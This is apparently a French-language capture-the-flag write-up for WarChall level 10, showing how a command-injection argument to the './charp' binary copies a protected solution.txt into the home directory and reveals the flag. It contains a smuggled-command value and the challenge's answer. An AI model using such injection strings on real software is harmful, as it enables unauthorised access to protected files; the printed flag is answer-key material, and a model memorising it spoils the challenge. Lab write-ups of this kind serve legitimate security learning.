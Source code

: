 # 10_choose_your_path

`````sh
rantoo@warchall:/home/level/10_choose_your_path$ ls
`````
charp   charp.c   compile.sh   solution.txt

Ces commandes peuvent transmettre le contenu de fichier `solution.txt` à la fin de fichier `level_10.txt` (repertoire personnel) en presence de l'execution avec `./charp` 
`````sh
rantoo@warchall:/home/level/10_choose_your_path$ ./charp "so & cat solution.txt > ~/level_10.txt"
`````
=> allez dans la repertoire personnel et tape `ls`
Après,
````sh
rantoo@warchall:~$ cat level_10.txt
````
#!/C:\windows\system32\ed

Congratulations hacker,

You have achieved what only a few achieve.
Kinda.

The flag or solution for this challenge is: EpidermalGlance


The passkey is : **EpidermalGlance**
